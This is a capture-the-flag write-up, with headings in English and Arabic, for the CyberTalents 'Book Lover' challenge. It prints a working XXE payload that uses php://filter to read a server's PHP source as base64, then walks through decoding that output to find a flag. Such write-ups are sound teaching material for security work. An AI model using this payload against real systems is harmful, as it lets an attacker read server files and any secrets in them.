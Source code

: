 # 🛡️ CyberTalents Challenge Name:Book Lover

## 🔍 Challenge Summary
## Challenge Name : Book Lover
We are given a target web app that processes user input via POST requests. While experimenting, we discovered the backend executes part of the input dynamically using PHP.

Upon deeper testing, we confirmed the server is vulnerable to **XXE injection** with access to `php://filter`, which allows reading the PHP source code of server-side files, base64-encoded.

---

## 🚀 Exploitation Steps | خطوات الاستغلال

### 1️⃣ Upload the XML Payload | رفع ملف XML يحتوي على الحمولة

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>
  <data>&xxe;</data>
</root>
```


2️⃣ Copy the Base64 Output | نسخ الإخراج المشفر
Once the payload is submitted, you will see a long base64-encoded string in the output.

3️⃣ Decode the Base64 | فك تشفير البايس 64
Use any base64 decoder:

🔹 Online: https://www.base64decode.org
🔹 Or via terminal:
```
echo "PASTE_BASE64_HERE" | base64 -d
```
4️⃣ Analyze the Decoded PHP Code | تحليل الكود بعد فك التشفير
After decoding the output, you’ll see the actual source code of index.php.

Search inside it for keywords like:
$flag = '********';
🎉 The flag is found! Mission accomplished.

